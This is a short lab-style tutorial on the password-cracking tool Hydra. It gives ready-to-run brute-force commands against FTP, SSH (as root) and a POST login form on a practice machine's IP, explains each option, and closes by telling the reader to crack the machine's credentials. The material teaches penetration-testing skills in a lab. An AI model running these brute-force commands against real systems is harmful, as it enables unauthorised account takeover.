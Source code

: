 # Hydra Commands		

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:		
```
hydra -l user -P passlist.txt ftp://10.10.202.56		
```

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).		


# SSH		
```
hydra -l <username> -P <full path to pass> 10.10.202.56 -t 4 ssh		
```
Option	Description	
-l	specifies the (SSH) username for login	
-P	indicates a list of passwords	
-t	sets the number of threads to spawn	

For example, 
```
hydra -l root -P passwords.txt 10.10.202.56 -t 4 ssh 
```
will run with the following arguments:		
		
Hydra will use root as the username for ssh		
It will try the passwords in the passwords.txt file		
There will be four threads running in parallel as indicated by -t 4		


# Post Web Form		
We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.		

```
sudo hydra <username> <wordlist> 10.10.202.56 http-post-form "<path>:<login_credentials>:<invalid_response>"		
```

Option	Description	
-l	the username for (web form) login	
-P	the password list to use	
http-post-form	the type of the form is POST	
<path>	the login page URL, for example, login.php	
<login_credentials>	the username and password used to log in, for example, username=^USER^&password=^PASS^	
<invalid_response>	part of the response when the login fails	
-V	verbose output for every attempt	

Below is a more concrete example Hydra command to brute force a POST login form:		
```
hydra -l <username> -P <wordlist> 10.10.202.56 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V		
```

The login page is only /, i.e., the main IP address.		
The username is the form field where the username is entered		
The specified username(s) will replace ^USER^		
The password is the form field where the password is entered		
The provided passwords will be replacing ^PASS^		
Finally, F=incorrect is a string that appears in the server reply when the login fails		
You should now have enough information to put this to practice and brute force your credentials to the deployed machine!		